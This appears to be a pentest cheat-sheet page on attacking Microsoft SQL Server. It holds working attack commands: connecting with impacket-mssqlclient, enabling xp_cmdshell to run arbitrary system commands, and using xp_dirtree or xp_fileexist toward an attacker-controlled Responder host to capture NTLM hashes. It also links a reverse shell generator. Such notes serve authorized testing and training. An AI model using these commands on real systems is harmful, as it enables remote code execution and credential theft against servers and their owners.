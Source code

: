 # Microsoft SQL Server
## Notes
If commands are not found or do not work, you may need to install or update it

The commands and tools used here were tested on Kali Linux (Rolling Edition)

## Port
1433

## Connecting
```bash
impacket-mssqlclient <Username>@<IP> -windows-auth
```

## RCE using `xp_cmdshell`
If the following command returns 1, the account has sysadmin privileges and can run remote commands via `xp_cmdshell`.
```bash
SELECT IS_SRVROLEMEMBER('sysadmin') #1
```
If you have sysadmin privileges, you can enable xp_cmdshell and run arbitrary commands by executing
```bash
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell '<Command>';
```

## Capture NTLM hashes using Responder and `xp_dirtree` or `xp_fileexist`
If you do not have sysadmin privileges, you can use Responder with xp_dirtree or xp_fileexist to capture NTLM hashes.
```bash
sudo responder -I tun0 #another terminal

SELECT IS_SRVROLEMEMBER('sysadmin') #0
EXEC xp_dirtree '\\<IP>\<Share>' # or '//<IP>/<Share>'
# EXEC xp_fileexist '\\<IP>\<Share>' or '//<IP>/<Share>'
```

# Reference
[Microsoft SQL Injection Cheat Sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)

[Reverse shell generator](https://www.revshells.com/)
